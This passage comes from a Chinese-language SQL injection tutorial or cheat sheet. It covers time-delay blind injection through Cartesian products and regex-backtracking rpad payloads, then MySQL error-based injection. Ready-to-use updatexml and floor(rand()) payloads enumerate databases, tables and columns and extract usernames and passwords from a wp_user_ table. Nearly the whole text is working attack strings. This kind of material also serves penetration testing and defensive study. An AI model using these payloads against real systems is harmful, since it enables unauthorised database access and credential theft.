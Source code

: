 利用笛卡尔积制造延时：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>SELECT count(*) from information_schema.columns A, information_schema.columns B, information_schema.tables C;<br>``` |

利用正则表达式匹配长字符串制造延时：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select * from wp_user_ where id =1 and IF(1,concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',0)<br>``` |

#### [](#525-%E5%85%B6%E5%AE%83%E5%87%BD%E6%95%B0)5.2.5 其它函数

`count()`：计算总数

`length()`：返回字符串的长度

## [](#6-%E6%8A%A5%E9%94%99%E5%9E%8B%E6%B3%A8%E5%85%A5)6 报错型注入

### [](#61-%E5%8E%9F%E7%90%86)6.1 原理

> 用于使用 SQL 语句报错的语法，用于注入结果无回显，但显示错误信息有输出的情况
> 
> 返回的信息即是攻击者需要的信息

MySQL 报错注入主要分为以下几类：

1.  BigInt 等数据类型溢出
2.  Xpath 语法错误
3.  count() + rand() + group by 导致主键重复
4.  空间数据类型函数错误

### [](#62-%E5%B8%B8%E7%94%A8%E5%87%BD%E6%95%B0)6.2 常用函数

#### [](#621-updatexml)6.2.1 updatexml

> updatexml 第二个参数需要传入的是 Xpath 格式的字符串。输入不符合，将参数值返回并报错。
> 
> 报错长度最大为 32 位

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>``` | ```sql<br>// 显示当前数据库<br>updatexml(1,CONCAT(0x7e, database()),1)<br><br>// 显示所有数据库<br>updatexml(1,CONCAT(0x7e,(select schema_name FROM INFORMATION_SCHEMA.SCHEMATA limit x,1), 0x7e),1)<br><br>// 获取表名<br>updatexml(1,CONCAT(0x7e,(select table_name from information_schema.tables where table_schema="sectest" limit x,1), 0x7e),1)<br><br>updatexml(1,make_set(3,'~',(select group_concat(table_name) from information_schema.tables where table_schema=database())),1)<br><br>// 获取列名<br>updatexml(1,CONCAT(0x7e,(select column_name from information_schema.COLUMNS where table_name="wp_user_" limit 1,1), 0x7e),1)<br><br>updatexml(1,make_set(3,'~',(select group_concat(column_name) from information_schema.columns where table_name="users")),1)<br><br>// 获取数据<br>updatexml(1,CONCAT(0x7e,(select username from wp_user_ limit 0,1), 0x7e),1)<br><br>updatexml(1,CONCAT(0x7e,(select password from wp_user_ where username="admin" limit 0,1), 0x7e),1)<br><br>updatexml(1,CONCAT(0x7e,(select GROUP_CONCAT(username, 0x3a, password) from wp_user_ where id=1), 0x7e),1)<br><br>updatexml(1,make_set(3,'~',(select data from users)),1)#<br>``` |

#### [](#622-floor-%E6%98%BE%E9%94%99%E6%B3%A8%E5%85%A5)6.2.2 floor 显错注入

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>and (select 1 from (select count(*), concat(user(), floor(rand(0)*2))x from information_schema.tables group by x)a)<br><br>and (select 1 from (select count(*), concat((select group_concat(username,0x3a,password) from wp_user_ where id=1), floor(rand(0)*2))x from information_schema.tables group by x)a)<br>``` |
